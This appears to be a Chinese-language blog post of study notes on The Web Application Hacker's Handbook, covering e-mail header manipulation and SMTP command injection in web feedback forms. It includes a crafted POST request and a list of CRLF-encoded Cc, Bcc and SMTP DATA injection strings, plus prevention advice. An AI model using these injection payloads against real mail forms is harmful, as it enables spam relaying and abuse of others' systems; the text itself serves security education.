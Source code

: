 ```yaml
---
layout:     post
title:      Chapter 10 Attacking Back-End Components(5)-Injecting into Mail Services
subtitle:   注入邮件服务
date:       2020-03-16
author:     D
header-img: 
catalog: true
mermaid: true
tags: [web hacking]
---
```


参考:**The Web Application Hackers Handbook** Chapter 10

许多应用程序都包含供用户通过应用程序提交消息的功能，例如报告问题以支持人员或提供有关网站的反馈。 通常通过与邮件（或SMTP）服务器接口来实现此功能。 通常，用户提供的输入会插入到应用程序服务器与邮件服务器进行的SMTP对话中。 如果攻击者可以提交未经过滤或清除的合适的人工输入，则他可以将任意STMP命令注入此对话中。

在大多数情况下，该应用程序使您可以指定消息的内容和您自己的电子邮件地址（该地址将插入到结果电子邮件的"发件人"字段中）。 您也许还可以指定消息的主题和其他详细信息。 您控制的任何相关字段可能都容易受到SMTP注入的攻击。

垃圾邮件发送者经常利用SMTP注入漏洞，它们扫描Internet以查找易受攻击的邮件形式，并使用这些形式生成大量令人讨厌的电子邮件。

# 1.电子邮件标题处理(E-mail Header Manipulation)

考虑一下图10-6中所示的表格，该表格允许用户发送有关应用程序的反馈。

![figure10-6](/img/web_hacking/twahh/figure10-6.jpg)

用户可以在此处指定"发件人"地址和消息内容。 该应用程序将此输入传递给PHP `mail()`命令，该命令构造电子邮件并与其配置的邮件服务器执行必要的SMTP对话。 生成的邮件如下：
```
To: admin@wahh-app.com
From: marcus@wahh-mail.com
Subject: Site problem

Confirm Order page doesn't load
```
PHP `mail()`命令使用`additional_headers`参数设置邮件的发件人地址。 此参数还用于通过用换行符分隔每个必需的标头来指定其他标头，包括`Cc`和`Bcc`。 因此，攻击者可以通过将这些标头之一注入"发件人"字段，从而将消息发送给任意收件人，如图10-7所示。

![figure10-7](/img/web_hacking/twahh/figure10-7.jpg)

这将导致mail（）命令生成以下消息：
```
To: admin@wahh-app.com
From: marcus@wahh-mail.com
Bcc: all@wahh-othercompany.com
Subject: Site problem

Confirm Order page doesn't load
```

# 2.SMTP命令注入(SMTP Command Injection)

在其他情况下，应用程序可以自己执行SMTP对话，或者可以将用户提供的输入传递给其他组件以执行此操作。 在这种情况下，可以将任意SMTP命令直接注入此对话中，从而可能完全控制应用程序生成的消息。

例如，考虑使用以下形式的请求来提交站点反馈的应用程序：
```
POST feedback.php HTTP/1.1
Host: wahh-app.com
Content-Length: 56

From=daf@wahh-mail.com&Subject=Site+feedback&Message=foo
```
这将导致Web应用程序使用以下命令执行SMTP对话：
```
MAIL FROM: daf@wahh-mail.com
RCPT TO: feedback@wahh-app.com
DATA
From: daf@wahh-mail.com
To: feedback@wahh-app.com
Subject: Site feedback
foo
```

**NOTE**
SMTP客户端发出`DATA`命令后，它将发送电子邮件的内容，包括邮件头和正文。 然后，它在自己的行上发送一个点字符。 这告诉服务器消息已完成，然后客户端可以发出其他SMTP命令来发送其他消息。

在这种情况下，您可以将任意的SMTP命令注入到您控制的任何电子邮件字段中。 例如，您可以尝试按以下步骤插入到"主题"字段中：
```
POST feedback.php HTTP/1.1
Host: wahh-app.com
Content-Length: 266

From=daf@wahh-mail.com&Subject=Site+feedback%0d%0afoo%0d%0a%2e%0d
%0aMAIL+FROM:+mail@wahh-viagra.com%0d%0aRCPT+TO:+john@wahh-mail
.com%0d%0aDATA%0d%0aFrom:+mail@wahh-viagra.com%0d%0aTo:+john@wahh-mail
.com%0d%0aSubject:+Cheap+V1AGR4%0d%0aBlah%0d%0a%2e%0d%0a&Message=foo
```
如果该应用程序容易受到攻击，则会导致以下SMTP对话，该对话会生成两种不同的电子邮件。 第二个完全在您的控制范围内：
```
MAIL FROM: daf@wahh-mail.com
RCPT TO: feedback@wahh-app.com
DATA
From: daf@wahh-mail.com
To: feedback@wahh-app.com
Subject: Site+feedback
foo
.
MAIL FROM: mail@wahh-viagra.com
RCPT TO: john@wahh-mail.com
DATA
From: mail@wahh-viagra.com
To: john@wahh-mail.com
Subject: Cheap V1AGR4
Blah
.
foo
.
```

# 3.查找SMTP注入缺陷(Finding SMTP Injection Flaws)

为了有效地探查应用程序的邮件功能，您需要确定提交给与电子邮件相关的功能的每个参数，甚至是那些最初看起来与所生成消息的内容无关的参数。 您还应该测试每种攻击，并使用Windows和UNIX风格的换行符来执行每个测试用例。

**HACK STEPS**
- 1.您应该依次提交以下每个测试字符串作为每个参数，并在相关位置插入您自己的电子邮件地址：
```
<youremail>%0aCc:<youremail>
<youremail>%0d%0aCc:<youremail>
<youremail>%0aBcc:<youremail>
<youremail>%0d%0aBcc:<youremail>

%0aDATA%0afoo%0a%2e%0aMAIL+FROM:+<youremail>%0aRCPT+TO:+<y
ouremail>%0aDATA%0aFrom:+<youremail>%0aTo:+<youremail>%0aS
ubject:+test%0afoo%0a%2e%0a

%0d%0aDATA%0d%0afoo%0d%0a%2e%0d%0aMAIL+FROM:+<youremail>%0
d%0aRCPT+TO:+<youremail>%0d%0aDATA%0d%0aFrom:+<youremail>%
0d%0aTo:+<youremail>%0d%0aSubject:+test%0d%0
afoo%0d%0a%2e%0d%0a
```
- 2.注意应用程序返回的所有错误消息。 如果这些问题似乎与电子邮件功能中的任何问题有关，请调查是否需要微调您的输入以利用漏洞。
- 3.应用程序的响应可能不会以任何方式表明漏洞是否存在或已被成功利用。 您应该监视指定的电子邮件地址，以查看是否收到任何邮件。
- 4.仔细检查生成相关请求的HTML表单。 这可能包含有关正在使用的服务器端软件的线索。 它还可能包含一个隐藏或禁用的字段，用于指定电子邮件的"收件人"地址，您可以直接对其进行修改。

**TIP**
向应用程序支持人员发送电子邮件的功能通常被认为是外围设备，可能未受到与主要应用程序功能相同的安全标准或测试。 另外，由于它们涉及到不寻常的后端组件的接口，因此通常是通过直接调用相关的操作系统命令来实现的。 因此，除了探查SMTP注入外，您还应该仔细检查OS命令注入漏洞的所有与电子邮件相关的功能。

# 4.防止SMTP注入(Preventing SMTP Injection)

通常，可以通过对传递给电子邮件功能或在SMTP对话中使用的任何用户提供的数据进行严格的验证，来防止SMTP注入漏洞。 给定使用目的，应尽可能严格地验证每个项目：
- 电子邮件地址应根据适当的正则表达式进行检查（当然，该表达式应拒绝任何换行符）。
- 邮件主题不应包含任何换行符，并且可以将其限制为合适的长度。
- 如果直接在SMTP对话中使用邮件的内容，则应禁止仅包含一个点的行。

# Summary

我们已经研究了针对后端应用程序组件的各种攻击，以及可以用来识别和利用每个组件的实际步骤。 在与应用程序交互的最初几秒钟内，可以发现许多实际漏洞。 例如，您可以在搜索框中输入一些意外的语法。 在其他情况下，这些漏洞可能非常微妙，表现为几乎无法检测到的差异。应用程序的行为，或者只有通过提交和处理精心设计的输入的多阶段过程才能达到。

为了确定您已经发现了应用程序中存在的后端注入漏洞，您需要既透彻又耐心。 实际上，每种类型的漏洞都可以在用户提供的几乎任何数据的处理中体现出来，这些数据包括查询字符串参数的名称和值，POST数据和cookie以及其他HTTP标头。 在许多情况下，只有当您对相关参数进行广泛探测后，才会出现缺陷准确了解您的输入正在执行哪种类型的处理，并仔细检查阻碍您前进的障碍。

面对针对后端应用程序组件的潜在攻击所呈现出的巨大潜在攻击面，您可能会感到，对应用程序的任何严重攻击都必须付出巨大的努力。 但是，学习攻击软件的技巧的一部分是要获得关于宝藏隐藏位置以及您的目标可能如何打开以便窃取它的第六种感觉。 获得这种感觉的唯一方法是通过练习。 您应该针对遇到的实际应用程序来练习我们描述的技术，并了解它们如何站立。


[Chapter 10 Attacking Back-End Components(4)-Injecting into Back-end HTTP Requests](https://dm116.github.io/2020/03/16/attacking-back-end-components_4/)<br>
[Chapter 11 Attacking Application Logic(1)-The Nature of Logic Flaws](https://dm116.github.io/2020/03/17/attacking-application-logic_1/)<br>
